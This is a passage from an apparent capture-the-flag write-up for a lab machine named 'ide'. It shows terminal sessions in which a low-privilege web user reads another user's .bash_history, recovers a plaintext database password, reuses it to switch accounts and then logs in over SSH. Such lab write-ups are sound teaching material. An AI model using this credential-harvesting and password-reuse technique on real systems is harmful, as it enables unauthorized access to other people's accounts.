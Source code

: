 ~~~
www-data@ide:/var/www/html/codiad/components/filemanager$ ls /home
drac
~~~

Next I went to `drac`'s home directory and listed the files:

~~~
www-data@ide:/var/www/html/codiad/components/filemanager$ cd /home/drac
www-data@ide:/home/drac$ ls -la
total 52
drwxr-xr-x 6 drac drac 4096 Aug  4 07:06 .
drwxr-xr-x 3 root root 4096 Jun 17 14:01 ..
-rw------- 1 drac drac   49 Jun 18 06:02 .Xauthority
-rw-r--r-- 1 drac drac   36 Jul 11 12:11 .bash_history
-rw-r--r-- 1 drac drac  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 drac drac 3787 Jul 11 11:53 .bashrc
drwx------ 4 drac drac 4096 Jun 18 06:03 .cache
drwxr-x--- 3 drac drac 4096 Jun 18 06:47 .config
drwx------ 4 drac drac 4096 Jun 18 06:48 .gnupg
drwx------ 3 drac drac 4096 Jun 18 05:49 .local
-rw-r--r-- 1 drac drac  807 Apr  4  2018 .profile
-rw-r--r-- 1 drac drac    0 Jun 17 14:03 .sudo_as_admin_successful
-rw------- 1 drac drac  557 Jun 18 05:49 .xsession-errors
-r-------- 1 drac drac   33 Jun 18 06:32 user.txt
~~~

As you can see the user flag is here, but we don't have read access to it and we need to switch to user drac first. If you pay close attention, we can read `.bash_history` and it's always worth to take a look at it:

~~~
www-data@ide:/home/drac$ cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
~~~

Here we can see that this user had logged into the database using `Th3dRaCULa1sR3aL` as the password. I tried the password to switch to `drac` and was successful:

~~~
www-data@ide:/home/drac$ su drac
Password: Th3dRaCULa1sR3aL
drac@ide:~$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
~~~

Now that we have `drac`'s password (`Th3dRaCULa1sR3aL`), we can connect to the machine via ssh to get a stable shell. Let's do this before reading the user flag:

~~~
└─$ ssh drac@$IP
drac@10.10.184.116's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-147-generic x86_64)

[REDACTED]

drac@ide:~$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
~~~
